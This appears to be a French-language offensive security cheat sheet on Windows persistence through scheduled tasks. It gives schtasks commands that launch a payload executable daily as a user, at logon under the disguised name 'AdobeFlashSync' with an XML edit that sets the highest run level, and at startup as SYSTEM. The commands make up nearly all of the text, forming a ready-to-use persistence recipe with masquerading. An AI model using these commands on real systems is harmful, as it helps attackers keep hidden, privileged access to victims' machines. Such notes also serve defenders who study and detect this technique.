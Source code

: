 
> [!NOTE] Everyone

Elle consiste a effectuer des taches planifier en tant que un utilisateur particulier

---
**En tant que `Utilisateur`**

```c
schtasks /create /tn "Mytasks\go" /sc daily /st 09:00 /tr "c:\pers\payload.exe"
```

```c
# Information sur la tache
schtasks /query /tn "mytasks\go" /fo:list /v

# Demarrer la taches
schtasks /run /tn "mytasks\go"
```

removal:

```http
schtasks /delete /tn “mytasks\go” /f
```

---

**En tant que `Administrateur`**
setup:

```c
schtasks /create /sc onlogon /tn "AdobeFlashSync" /tr "c:\pers\payload.exe"
```

```c
# Information sur la tache
schtasks /query /tn "AdobeFlashSync" /fo list

# Recuperer la tache en fichier XML
schtasks /query /tn "AdobeFlashSync" /xml 
schtasks /query /tn "AdobeFlashSync" /xml > tsk.xml
```

Maintenant ajouter **`<RunLevel>HighestAvailable</RunLevel>`** dans le fichier `tsk.xml` juste en bas de `<LogonType>InteractiveToken</LogonType>

```c
schtasks /delete /f /tn "AdobeFlashSync"
schtasks /create /tn "AdobeFlashSync" /xml tsk.xml
```

removal:

```http
schtasks /delete /f /tn "AdobeFlashSync"
```


---
**En tant que `AUTORITER NT\SYSTEM`**

```c
schtasks /create /RU SYSTEM /SC onstart /TN "PERSIST" /TR "c:\pers\payload.exe"
```

